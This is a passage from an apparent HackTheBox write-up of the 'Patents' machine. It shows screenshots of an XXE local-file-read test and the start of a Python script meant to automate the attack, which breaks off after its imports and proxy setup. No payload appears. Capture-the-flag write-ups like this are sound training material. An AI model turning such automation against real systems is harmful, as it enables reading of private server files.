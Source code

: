 We create the smallets file I could

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2009:35:43.png)

And it worked as expected

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2009:36:18.png)

Let's automate the whole things now!

# Auto XEE LFI

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-24-HackTheBox-Patents/2021-10-24-HackTheBox-Patents%2010:30:40.png)


```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto XEE LFI - Patents HackTheBox

import argparse
import requests
import sys
import os
import re
import base64
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
```